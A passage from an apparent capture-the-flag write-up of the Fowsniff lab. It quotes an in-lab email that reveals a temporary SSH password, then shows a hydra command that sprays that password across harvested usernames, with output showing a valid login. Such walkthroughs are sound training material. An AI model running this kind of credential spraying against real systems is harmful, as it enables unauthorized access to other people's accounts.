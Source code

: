 ```
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```
The mailbox contains 2 emails, one of which contains a temporary password for SSH. The sender of the email asks users to change this temporary password as soon as possible, but I will still try to bruteforce the SSH service with the list of users that I have gathered and the password. 

## SSH Bruteforce
I placed all the usernames in the `usernamesSSH.txt` file and used `hydra` to test these usernames with the temporary password in `SSH` : 
```
└─# hydra -L usernamesSSH.txt -p 'S1ck3nBluff+secureshell' fowsniff.thm ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-29 17:52:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://fowsniff.thm:22/
[22][ssh] host: fowsniff.thm   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-29 17:52:15
```
The user `baksteen` has not changed the temporary password, so I can connect in SSH with these credentials :